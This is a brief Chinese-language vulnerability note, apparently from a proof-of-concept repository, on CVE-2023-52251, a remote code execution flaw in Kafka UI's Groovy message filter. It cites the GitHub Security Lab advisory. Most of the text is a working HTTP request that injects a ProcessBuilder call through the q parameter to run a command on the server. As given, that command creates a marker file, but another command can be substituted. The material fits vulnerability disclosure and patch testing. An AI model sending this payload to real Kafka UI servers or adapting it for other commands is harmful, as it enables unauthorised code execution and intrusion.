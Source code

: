 ## Apache-Kafka的UI中的远程代码执行CVE-2023-52251

Kafka UI 受到远程代码执行漏洞的影响。消息过滤组件中导致执行任意未沙盒化的 Groovy 脚本

## poc

```
GET /api/clusters/local/topics/topic/messages?q=new+ProcessBuilder%28%22touch%22%2C%22%2Ftmp%2Fpwnd.txt%22%29.start%28%29&filterQueryType=GROOVY_SCRIPT&attempt=7&limit=100&page=0&seekDirection=FORWARD&keySerde=String&valueSerde=String&seekType=BEGINNING HTTP/1.1
Host: 127.0.0.1:8091
```

![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406262238236.png)



## 漏洞来源

- https://securitylab.github.com/advisories/GHSL-2023-229_GHSL-2023-230_kafka-ui/